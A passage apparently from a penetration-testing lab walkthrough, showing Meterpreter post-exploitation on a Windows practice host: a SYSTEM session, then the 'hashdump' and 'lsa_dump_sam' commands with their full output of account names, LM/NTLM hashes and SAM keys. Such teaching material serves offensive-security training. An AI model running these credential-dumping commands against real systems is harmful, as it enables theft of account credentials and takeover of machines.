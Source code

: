 ```shell-session

Server username: NT AUTHORITY\SYSTEM
```

From here, we can proceed to use the plethora of Meterpreter functionalities. For example, extracting hashes, impersonating any process we want, and others.

#### MSF - Dumping Hashes

```shell-session
meterpreter > hashdump

Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::


meterpreter > lsa_dump_sam

[+] Running as SYSTEM
[*] Dumping SAM
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local SID : S-1-5-21-1709780765-3897210020-3926566182

SAMKey : 37ceb48682ea1b0197c7ab294ec405fe

RID  : 000001f4 (500)
User : Administrator
  Hash LM  : c74761604a24f0dfd0a9ba2c30e462cf
  Hash NTLM: d6908f022af0373e9e21b8a241c86dca

RID  : 000001f5 (501)
User : Guest

RID  : 000003e9 (1001)
User : SUPPORT_388945a0
  Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6

RID  : 000003eb (1003)
User : IUSR_GRANPA
  Hash LM  : a274b4532c9ca5cdf684351fab962e86
  Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88

RID  : 000003ec (1004)
User : IWAM_GRANPA
  Hash LM  : 95d112c4da2348b599183ac6b1d67840
  Hash NTLM: a97f39734c21b3f6155ded7821d04d16

RID  : 000003ef (1007)
User : ASPNET
  Hash LM  : 3f71d62ec68a06a39721cb3f54f04a3b
  Hash NTLM: edc0d5506804653f58964a2376bbd769

RID  : 000003f1 (1009)
User : Lakis
  Hash LM  : f927b0679b3cc0e192410d9b0b40873c
  Hash NTLM: 3064b6fc432033870c6730228af7867c
```
